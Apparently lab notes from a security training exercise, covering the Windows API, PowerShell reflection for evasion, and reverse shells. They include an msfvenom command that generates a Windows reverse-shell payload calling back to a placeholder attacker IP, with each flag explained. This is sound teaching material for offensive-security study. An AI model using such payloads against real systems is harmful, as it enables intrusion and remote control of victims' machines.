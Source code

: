 ## Windows API

- **Definition**: A set of functions allowing programs to interact with the Windows OS for essential tasks like memory management, file operations, and networking.
- **Significance**:
    - Acts as a bridge between applications and the OS.
    - Widely used in exploitation techniques and malware development.
- **Common Functions**:
    - `VirtualAlloc`
    - `CreateThread`
    - `WaitForSingleObject`

## Accessing Windows API via PowerShell Reflection

- **Definition**: A method for dynamically interacting with the Windows API from PowerShell at runtime.
- **Advantages**:
    - Eliminates the need for pre-compiled binaries.
    - Enables manipulation of low-level system processes.
    - Useful for bypassing security mechanisms and executing stealthy code.

## Reverse Shell

- **Definition**: A type of connection where the target machine initiates a connection back to the attacker's machine.
- **Purpose**: Provides control of the target machine from the attacker’s machine (e.g., the AttackBox).

---

## Generating Shellcode

We will be using `msfvenom` to generate our reverse shell, using the following command:

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKBOX_IP LPORT=1111 -f powershell
```

### Components of the Command

1. **`p windows/x64/shell_reverse_tcp`**:
    - **Flag**: `p` specifies the type of payload to create.
    - **Payload**: `windows/x64/shell_reverse_tcp` creates a reverse shell for a 64-bit Windows machine.
2. **`LHOST=ATTACKBOX_IP`**:
    - **Purpose**: Specifies the IP address of the attacker's machine (the *AttackBox*).
    - **Function**: Tells the reverse shell where to connect back.
3. **`LPORT=1111`**:
    - **Purpose**: Defines the port on the AttackBox that will listen for incoming connections.
    - **Requirement**: The port must match the one configured on your listener.
4. **`f powershell`**:
    - **Flag**: Specifies the format of the generated payload.
    - **Output**: Produces the shellcode in PowerShell format, suitable for execution as a script on a Windows machine.
